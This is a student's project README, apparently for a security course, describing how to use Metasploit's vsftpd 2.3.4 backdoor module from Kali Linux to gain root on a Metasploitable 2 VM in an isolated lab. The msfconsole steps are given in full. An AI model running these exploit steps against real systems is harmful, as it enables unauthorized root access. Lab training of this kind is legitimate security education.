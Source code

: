 # CSN-Project

Software Evaluating - Metasploit

Name - Ricardo Antonio

# Tools used
---Metasploit - Security Tool that uses scans machines for known exploits and is ablt to execute the exploits in a payload
---Kali Linux - Pen Testing OS used by InfoSec professionals 
---Metasploitable - Vulnerable VM used for practice for hacking into Systems
---Virutal Box - hypervisor used for creation and managment of Virutal Machines

# Reason why working with Metasploit - 
Metasploit is  idustry recognized and used by InfoSec professionals for testing networks for vulnerabilites. By researching this tool and learning how it works, I will gain valuable experience in CyberSecurity.

# Project
Use Metasploit on a Kali Linux VM to use a vulnerability to exploit vsftpd, VSFTPD a secure unix based ftp server, this vulnerability was disocvered in 2011 in version 2.3.4 of VSFTPD. Exploiting it will give us root access to the Victim Machine.

# Project Setup
Tools to download
--- Kali linux
--- Metasploitable 2
--- Virtualbox

Steps

1. Install Kali Linux and Metasploitable VMs into Virutal Box
2. Remove Kali and Metaspoiltable from your network by changing Network option to Host-only Adapter

<img width="597" alt="SNIP-1" src="https://user-images.githubusercontent.com/98781636/167211743-03a9c129-4649-43f2-9e20-ebfc9032a972.PNG">

3. Start Metasploitable VM on Virtual box, login and password will be msfadmin
4. Once Metasploitable VM is started, power on Kali Linux, once in Kali open terminal and run command 'msfconsole' to start metasploit shell

<img width="89" alt="SNIP-2" src="https://user-images.githubusercontent.com/98781636/167217134-6a38eedc-29fe-489b-9fc2-ad5c0633fc14.PNG">
5. Inside the msf shell, run the command 'search vstfpd' to search for the vulnerability by name
6. Once search reveals location of vulnerability, load it into the payload by typing 'use exploit/unix/ftp/vsftpd_234_backdoor'
7. set the IP address of the VIctim machine on your shell by typing ' set RHOST [VICTIM IP]
8. to find IP address of Metasploitable machine type 'ifconfig' into the shell
9. finally run the 'run' command on the kali machine msf console
10. you know have root access into the machine!
